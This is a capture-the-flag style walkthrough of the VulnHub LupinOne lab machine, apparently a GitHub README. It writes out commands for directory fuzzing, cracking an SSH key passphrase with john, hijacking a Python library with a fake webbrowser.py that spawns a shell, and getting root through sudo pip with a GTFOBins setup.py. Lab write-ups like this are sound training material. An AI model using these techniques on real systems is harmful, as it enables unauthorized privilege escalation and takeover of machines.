

# LupinOne — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./LupinOne%20—%20Writeup.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | LupinOne (VulnHub) |
| **Difficulty** | Intermediate |
| **Assessment Type** | Web Fuzzing, Cryptanalysis & Linux Privilege Escalation |
| **Key Concepts** | Directory Fuzzing (`~secret`), Fastcipher Decryption, Passphrase Cracking (`ssh2john`), Python Library Hijacking (`webbrowser.py`), Sudo Pip GTFOBins Escalation |
| **Initial Foothold** | Decoded SSH Key for user `icex64` |
| **Privilege Escalation** | Python Library Hijacking -> user `arsene` -> `sudo pip` -> `root` |

---

## 🎯 Attack Chain



---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Web Enumeration & Hidden Key Discovery

Scanning discovers port 22 and port 80. Fuzzing with `ffuf` reveals an unconventional path:
```bash
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Discovers `/~secret/`.
Inside `~secret/`, we find a hidden file containing an encoded SSH private key generated with **Fastcipher**.
Decoding the cipher reveals a valid OpenSSH private key for user `icex64`.

The key is protected with a passphrase. Cracking it:
```bash
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Password cracked successfully.

### Phase 2: Lateral Movement to User arsene

Log into SSH:
```bash
ssh -i id_rsa icex64@<TARGET_IP>
```
Check sudo privileges:
```bash
sudo -l
```
Output shows `icex64` can execute `/usr/bin/python3.9 /home/arsene/heist.py` as user `arsene`.
Inspecting `heist.py` reveals that it imports the standard library `webbrowser`:
```python
import webbrowser
webbrowser.open(...)
```
Because the current working directory or Python module search path is writable, create a fake `webbrowser.py` in the execution directory:
```python
import os
os.system("/bin/bash")
```
Execute the script via sudo:
```bash
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```
This drops us into a shell as user `arsene`!

### Phase 3: Root Privilege Escalation via Sudo Pip

Checking `sudo -l` for user `arsene`:
```text
(root) NOPASSWD: /usr/bin/pip
```
According to GTFOBins, `pip` can execute arbitrary commands during package configuration:
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
Spawn a shell: We are now `root`!
